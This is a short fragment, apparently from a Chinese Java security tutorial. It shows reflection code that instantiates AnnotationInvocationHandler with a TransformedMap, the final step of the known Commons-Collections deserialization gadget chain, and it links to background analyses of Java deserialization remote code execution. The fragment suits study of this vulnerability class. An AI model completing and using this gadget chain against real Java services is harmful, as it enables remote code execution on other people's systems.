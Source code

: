 ```java
//            entry.setValue(runtime);
//        }

        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object annotationInvocationHandler = constructor.newInstance(Target.class, transMap);
```



**相关资料**

> 关于 [TransformedMap利用的最早出处](https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478) ，以及长亭的相关分析 [Lib之过？Java反序列化漏洞通用利用分析](https://blog.chaitin.cn/2015-11-11_java_unserialize_rce/) ---- 代码审计星球
>



